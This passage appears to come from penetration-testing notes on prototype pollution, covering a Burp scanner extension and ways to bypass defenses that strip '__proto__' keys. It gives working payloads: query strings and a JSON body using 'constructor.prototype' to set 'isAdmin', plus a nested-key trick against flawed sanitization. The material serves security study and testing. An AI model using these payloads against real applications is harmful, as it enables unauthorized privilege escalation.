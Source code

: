 Right click on the request -> Extensions -> Server-Side Prototype Pollution Scanner -> Server-Side Prototype Pollution

---

## Bypassing defenses

### Via the constructor

A common defense is to remove any properties with the key `__proto__` from user-controlled objects before merging them.

Use `myObject.constructor.prototype` that is equivalent to `myObject.__proto__`

```md
vulnerable-website.com/?foo.constructor.prototype=bar
```

```json
{
   "constructor":{
      "prototype":{
         "isAdmin":"true"
      }       
   }
}
```

### Bypassing flawed key sanitization

Read the js code to understand the defenses. E.g. bypass the strips of `__proto__`

```md
vulnerable-website.com/?__pro__proto__to__[foo]=bar
```
